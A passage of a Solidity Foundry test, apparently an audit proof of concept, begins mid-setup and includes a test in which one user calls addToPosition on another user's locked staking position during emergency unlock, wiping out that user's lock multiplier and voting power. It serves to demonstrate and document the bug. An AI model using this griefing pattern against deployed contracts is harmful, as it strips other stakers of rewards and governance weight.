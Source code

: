 ```solidity
                    abi.encodeWithSelector(RewarderFactory.initialize.selector, DEV, new uint8[](0), new address[](0))
                )
            )
        );

        voter = Voter(
            address(
                new TransparentUpgradeableProxy2Step(
                    address(new Voter(new MasterChefMock(), stakingPool, rewarderFactory)),
                    proxyAdmin,
                    abi.encodeWithSelector(MlumStaking.initialize.selector, DEV)
                )
            )
        );

        rewarderFactory.setRewarderImplementation(
            IRewarderFactory.RewarderType.BribeRewarder, IRewarder(address(new BribeRewarder(address(voter))))
        );
        bribeRewarder = BribeRewarder(payable(address(rewarderFactory.createBribeRewarder(rewardToken, address(stakingPool)))));

    }

    function testUnauthorizedAddToPositionAndResetMultiplier() public {
        stakingToken.mint(ALICE, 10e18);
        stakingToken.mint(BOB, 10e18);

        // Alice create position
        vm.startPrank(ALICE);
        stakingToken.approve(address(stakingPool), 1e18);
        stakingPool.createPosition(1e18, 365 days);

        MlumStaking.StakingPosition memory position = stakingPool.getStakingPosition(1);
        assertEq(position.amount, 1e18);
        assertEq(position.amountWithMultiplier, 3e18); // + 200% bonus from lock

        // owner enable emergency unlock
        vm.startPrank(DEV);
        stakingPool.setEmergencyUnlock(true);

        // Bob destroy Alice voting power
        vm.startPrank(BOB);
        stakingToken.approve(address(stakingPool), 1);
        stakingPool.addToPosition(1, 1);

        MlumStaking.StakingPosition memory positionAfterBob = stakingPool.getStakingPosition(1);
        assertEq(positionAfterBob.amount, 1e18 + 1);
        assertNotEq(positionAfterBob.amountWithMultiplier, 3e18);
        assertEq(positionAfterBob.amountWithMultiplier, 1e18 + 1); // 200% bonus gone
    }
}

```
